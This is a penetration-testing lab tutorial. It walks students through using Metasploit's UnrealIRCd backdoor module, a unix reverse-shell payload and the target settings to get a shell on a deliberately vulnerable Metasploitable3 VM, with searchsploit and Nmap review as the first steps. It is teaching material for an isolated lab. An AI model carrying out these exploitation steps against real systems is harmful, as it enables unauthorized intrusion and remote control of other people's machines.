

# Lab - Metasploit

!!! tip "Lab Setup"
    1) Start up the Metasploitable3 VM and login.

    2) Run the ifconfig command to display the VM’s network interface information.

## Intro

Metasploit is an open-source framework that offers a comprehensive suite of tools for penetration testing, vulnerability scanning, and exploit development. It is widely used by security professionals and hackers alike to simulate attacks and identify weaknesses in computer systems, networks, and applications. Metasploit is constantly evolving to keep up with the latest threats and vulnerabilities, making it a critical tool in any security professional's arsenal. This hands-on technical lab will introduce the Metasploit framework, including basic commands, modules, and payloads.

## Walkthrough

Now switch over to your Forge VM.

Execute the below command so we can review the results from our prior Nmap Lab.

```bash
cat ~/nmap_lab.nmap
```

We’re looking for interesting open ports and services that we might want to target with Metasploit.

{ width="70%" }
/// caption
Port Scanning Results
///

UnrealIRCd[[1]](https://www.notion.so/Lab-5-Metasploit-b091b960bf1648859b04467945712a22?pvs=21) is an open-source Internet Relay Chat (IRC) server software that allows users to host and run their own IRC networks. IRC is a communication protocol used for real-time text messaging and file sharing on the internet. UnrealIRCd is one of the most popular IRC server software packages available and is used by many large IRC networks and smaller communities alike.

UnrealIRCd provides a wide range of features and customization options, including channel modes, operator privileges, ban lists, and SSL encryption. It is highly customizable, allowing network administrators to configure and modify the server to meet their specific needs.

Overall, UnrealIRCd provides a powerful and flexible platform for hosting and running IRC networks and has been widely adopted by communities of all sizes.

Now execute the below command…

```bash
searchsploit unrealircd
```

The "searchsploit" command is part of the Exploit Database, a collection of exploits and vulnerabilities maintained by Offensive Security. This command searches the database for exploits related to the specified search term.

Therefore, the `searchsploit unrealircd` command would search the Exploit Database for exploits related to the UnrealIRCd software, which is an IRC server software. This command can be useful for identifying potential vulnerabilities in UnrealIRCd and for finding exploits that can be used to exploit those vulnerabilities.

It is important to note that the Exploit Database should be used responsibly and only for legitimate security research purposes. Unauthorized or malicious use of exploits can result in serious harm to computer systems and networks.

{ width="70%" }
/// caption
Searching for Unrealircd
///

Looks like there’s an exploit available for use with Metasploit!

Execute the below command…

```bash
msfconsole
```

This command launches the Metasploit Framework console. The console is the primary interface for interacting with the Framework and executing various modules and exploits.

Let’s execute the below command next…

```bash
search UnrealIRCd
```

The `search` command in `msfconsole` is used to search for specific exploits, payloads, or modules within the Metasploit Framework. The command `search UnrealIRCd` would search the database for any modules related to the UnrealIRCd server software.

{ width="70%" }
/// caption
Metasploit Search Results
///

There’s the exploit we saw from `searchsploit`!

Execute the below command to get a bit more information on that module.

```bash
info 0
```

Notice how we used the index number from our `search` command to get info for the module. This is a handy trick to quickly reference things in msfconsole.

In the image below you can see the rank is “Excellent” and the exploit takes advantage of a malicious backdoor.

{ width="70%" }
/// caption
Module Info
///

Let’s go ahead and use the module by running the below command.

```bash
use 0
```

{ width="70%" }
/// caption
Use Command
///

Let’s see how to configure the module with the below command…

```bash
options
```

{ width="70%" }
/// caption
Module Ooptions
///

We’re missing our target IP specification. Let’s set that now with the below command.

Be sure to use the Metasploitable3 IP address you noted in the setup steps.

```bash
set RHOSTS [Metasploitable3_IP_Address]
```

{ width="70%" }
/// caption
Remote Hosts Targeting
///

We’re ready to try exploiting! Run the below command…

```bash
exploit
```

{ width="70%" }
/// caption
Exploit! Errr…maybe not
///

Uh oh! Looks like it failed cause we didn’t select a payload to use with our exploit.

The `show payloads` command below displays a list of available payloads that can be used to deliver the exploit to the target system.

A payload is a piece of code that is executed on the target machine after a successful exploitation, typically designed to provide an attacker with some form of remote access to the compromised system. Metasploit offers a wide range of payloads to choose from, including reverse shells, Meterpreter, and VNC injection, among others.

Execute the below command…

```bash
show payloads
```

{ width="70%" }
/// caption
Available Payloads
///

Let’s keep things simple and choose `payload/cmd/unix/reverse` payload. We can select it via its index number with the below command…

```bash
set PAYLOAD payload/cmd/unix/reverse
```

{ width="70%" }
/// caption
Payload Selection
///

Now double check the configuration options with the below command since we now have a payload selected.

```bash
options
```

{ width="70%" }
/// caption
Module Options
///

Looks like we need to set the `LHOST` option for the payload.

This below command sets the local host IP address that the Metasploit Framework will use to establish a connection with the target machine. The `LHOST` parameter is used to specify the IP address of the network interface on the attacker machine (our Forge VM) that will be used to listen for incoming connections from the target. In this case, the `eth0` interface is being used.

```bash
set LHOST ens33
```

{ width="70%" }
/// caption
Set LHOST
///

Triple check the configuration…

```bash
options
```

{ width="70%" }
/// caption
Module Options
///

Things look good! Let’s run the exploit again with the below command.

```bash
exploit
```

{ width="70%" }
/// caption
Failed?!
///

Take a closer look at the `options` from the above screenshot. Notice we had the target set to the default port `6667` but the nmap scan said IRC was actually running on on port `6697`. Well that’s an easy fix. Let’s just update the `RPORT` option.

```bash
set RPORT 6697
```

{ width="70%" }
/// caption
Corrected target RPORT
///

It’s important to remember that modules have default values but you should always make sure that you are customizing them to your target. 

Let’s run `exploit` one last time.

```bash
exploit
```

{ width="70%" }
/// caption
Exploit! (for real this time)
///

SUCCESS! [evil laugh]

Our exploit worked and we now have a shell on the target/victim/Metasploitable3 machine.

Start exploring the target/victim machine with the below commands like `whoami`, `pwd`, `uname -a`, `ifconfig | grep inet`, and `ls -l` to see what’s there!

{ width="70%" }
/// caption
On The Target Machine
///

You can end the shell session by pressing `Control+C` keys.

```bash
CTRL+C
```

{ width="70%" }
/// caption
Exiting The Shell
///

And exit Metasploit to end the Lab.

```bash
exit
```

{ width="70%" }
/// caption
Exiting Metasploit
///